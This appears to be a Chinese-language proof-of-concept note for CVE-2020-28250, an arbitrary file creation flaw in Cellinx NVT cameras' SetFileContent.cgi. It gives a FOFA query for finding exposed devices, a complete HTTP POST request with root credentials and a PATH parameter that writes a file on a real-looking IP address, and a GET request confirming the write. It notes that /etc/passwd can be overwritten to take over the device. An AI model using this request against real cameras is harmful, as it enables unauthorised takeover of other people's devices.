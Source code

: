 # Cellinx NVT 摄像机 SetFileContent.cgi 文件 PATH 参数任意文件创建漏洞（CVE-2020-28250）

    ## fofa

```
body="local/NVT-string.js"
```



## SetFileContent

攻击者可通过 SetFileContent.cgi 创建和写入任意文件，如覆盖 /etc/passwd 等获取服务器权限。

```
POST /cgi-bin/SetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/etc/html/testdsad11.txt HTTP/1.1
Host: 1.222.228.4
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 11

testcontent
```

GET /local/testdsad11.txt HTTP/1.1
